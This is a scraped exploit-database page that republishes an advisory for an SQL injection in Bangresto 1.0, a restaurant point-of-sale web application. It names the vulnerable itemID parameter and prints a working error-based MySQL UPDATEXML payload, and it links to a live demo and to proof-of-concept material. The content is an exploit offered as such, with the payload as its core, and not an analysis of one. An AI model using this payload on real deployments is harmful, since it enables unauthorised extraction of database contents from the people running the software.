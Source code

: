 ```yaml
---
title: Bangresta 1.0 SQL Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:170271&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2022-12-17
fetch_date: 2025-10-04T01:43:49.249232
---
```


# Bangresta 1.0 SQL Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Bangresta 1.0 SQL Injection

2022-12-16 | CVSS 0.0

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:170271
## Title: Bangresto 1.0 SQLi
## Author: nu11secur1ty
## Date: 12.16.2022
## Vendor: https://axcora.com/, https://www.hockeycomputindo.com/2021/05/restaurant-pos-source-code-free.html
## Demo: https://axcora.my.id/bangrestoapp/start.php
## Software: https://github.com/mesinkasir/bangresto
## Reference: https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/Bangresto

## Description:
The `itemID` parameter appears to be vulnerable to SQL injection attacks.
The payload ' was submitted in the itemID parameter, and a database
error message was returned.
The attacker can be stooling all information from the database of this
application.

## STATUS: CRITICAL Vulnerability

[+] Payload:

```MySQL
---
Parameter: itemID (GET)
Type: error-based
Title: MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)
Payload: itemID=(UPDATEXML(2539,CONCAT(0x2e,0x7171767871,(SELECT
(ELT(2539=2539,1))),0x7170706a71),2327))&menuID=1
---
```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/Bangresto)

## Proof and Exploit:
[href](https://streamable.com/moapnd)

## Time spent
`00:30:00`
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)